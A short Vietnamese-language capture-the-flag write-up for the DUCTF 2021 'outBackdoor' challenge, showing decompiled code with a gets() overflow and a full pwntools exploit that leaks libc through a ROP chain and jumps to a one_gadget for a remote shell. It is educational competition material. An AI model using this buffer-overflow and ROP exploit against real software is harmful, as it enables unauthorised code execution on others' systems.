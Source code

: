 # OUTBACKDOOR

hàm main của chương trình
```sh
char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  buffer_init();
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(v4);
  return 0;
```
Có 1 hàm outBackdoor như sau:
```sh
int outBackdoor()
{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  return system("/bin/sh");
}
```
Chúng ta sẽ nhảy về outBackdoor và thực thi system cho chúng ta.
Ở challenge này mình sử dụng one_gadget thay vì system("/bin/sh")

```sh
from pwn import *
#s = process("./outBackdoor")
s = remote("pwn-2021.duc.tf", 31921)
raw_input("debug")
#s = remote("pwn-2021.duc.tf1", 31921)
elf = ELF("./outBackdoor")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
pop_rdi = 0x000000000040125b
payload = ''
payload += "a"*0x18 + p64(pop_rdi) + p64(elf.got.puts) + p64(elf.plt.puts) + p64(elf.sym.main)
#s.recv()
s.recvuntil("play a song?\n")
s.sendline(payload)
puts_leak = u64(s.recv(6)+"\x00\x00")
print hex(puts_leak)

libc.address = puts_leak - libc.symbols['puts']
binsh =next(libc.search("/bin/sh"))
system = libc.symbols['system']
one_gadget = 0x4f432 + libc.address
print hex(libc.address)
print hex(binsh)
print hex(system)

payload2 = ""
payload2 += "a"*0x18
payload2 += p64(one_gadget)
payload2 += p64(0)*90
#payload2 += p64(binsh)
#payload2 += p64(system)
#payload2 += p64(elf.sym.main)
s.sendline(payload2)
s.interactive()
```

### #flag DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}